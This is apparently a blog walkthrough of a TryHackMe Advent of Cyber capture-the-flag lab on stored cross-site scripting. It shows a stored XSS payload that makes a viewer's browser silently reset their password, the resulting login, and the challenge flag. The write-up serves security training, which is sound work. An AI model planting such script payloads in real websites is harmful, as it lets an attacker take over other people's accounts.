 ```yaml
---
title:  "TryHackMe: Advent of Cyber - Day 5 - Pesky Elf Forum"
date:   2021-12-12 17:00:00 +1000
excerpt: Learning about XSS. 
---
```


This is a write up for the Day 5 - Pesky Elf Forum challenge in the [**Advent of Cyber**](https://tryhackme.com/room/adventofcyber3) room on [TryHackMe](https://tryhackme.com). Some tasks may have been omitted as they do not require an answer.

***

### What flag did you get when you disabled the plugin?

After logging in a McSkidy, we add a comment to check if a Stored XSS vulnerability is present.

Add an underline to the text and as it is rendered, Stored XSS is present.

```
<u>test</u>
```

<img src="{{ site.baseurl }}/assets/images/2021-12-12-advent-of-cyber-day-5/d5_1.jpg">

As we are trying to change the Grinch's password, we can add a comment with the follow code.

```
<script>fetch('/settings?new_password=pass123');</script>
```

<img src="{{ site.baseurl }}/assets/images/2021-12-12-advent-of-cyber-day-5/d5_2.jpg">

We can now attempt to log in as the Grinch.

```
grinch:pass123
```

Disabling the 'Christmas to Buttmas' plugin reveals the following flag.

<img src="{{ site.baseurl }}/assets/images/2021-12-12-advent-of-cyber-day-5/d5_3.jpg">

> Answer: **THM{NO_MORE_BUTTMAS}**

### Recap

In this task we learnt:
 * What is an XSS vulnerability
 * What Types of XSS vulnerabilities there are
Challenge Walkthrough
 